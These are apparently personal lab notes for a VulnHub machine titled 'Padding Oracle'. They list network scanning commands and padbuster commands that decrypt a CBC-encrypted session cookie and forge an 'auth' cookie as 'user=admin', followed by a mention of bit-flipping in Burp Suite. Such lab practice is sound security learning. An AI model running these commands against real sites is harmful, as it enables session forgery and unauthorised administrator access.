

# Padding Oracle
```bash
# search vulnhub machine and open like iso (creating new vitrual machine)

arp-scan -I wlo1 --localnet # 192.168.1.7
ping -c 1 192.168.1.7

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn -oG allPorts 192.168.1.7
# take snapshot base of the machine

# CBC

```




```bash
sudo apt install padbuster

# cookie session
name=auth
value=pnYJPn1QzKVlMX66bGcTu%2BkU5Gdv0ddq

padbuster http://192.168.1.7/index.php pnYJPn1QzKVlMX66bGcTu%2BkU5Gdv0ddq 8 -cookies 'auth=pnYJPn1QzKVlMX66bGcTu%2BkU5Gdv0ddq'

padbuster http://192.168.1.7/index.php pnYJPn1QzKVlMX66bGcTu%2BkU5Gdv0ddq 8 -cookies 'auth=pnYJPn1QzKVlMX66bGcTu%2BkU5Gdv0ddq' -plaintext 'user=admin'

# BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
# paste into cookie auth

# bit flipper attack in burpsuite


```